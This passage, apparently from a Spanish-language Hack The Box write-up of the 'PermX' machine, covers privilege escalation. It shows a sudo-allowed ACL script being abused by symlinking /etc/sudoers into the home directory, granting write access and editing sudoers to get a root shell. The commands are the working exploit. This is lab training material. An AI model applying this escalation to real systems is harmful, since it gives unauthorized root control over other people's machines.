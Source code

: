 Y funciona y conseguimos nuestra flag de user.

4. Escalada de privilegios

```bash
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
mtz@permx:~$ cd /opt
mtz@permx:/opt$ ls
acl.sh
mtz@permx:/opt$ cat acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Se crea con ln una especie de vínculo entre los archivos y con el programa acl.sh se pueden otorgar los permisos necesarios para modificar el archivo sudoers y lograr la flag del root:

```bash
mtz@permx:~$ ln -s /etc/sudoers helpfile
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/helpfile
mtz@permx:~$ vim /etc/sudoers
```

![[https://github.com/Mili72/Capturas/blob/main/Pasted%20image%2020241002005833.png]]

```bash
mtz@permx:/$ sudo su
[sudo] password for mtz: 
Sorry, try again.
[sudo] password for mtz: 
root@permx:/#
```

https://app.hackthebox.com/profile/overview
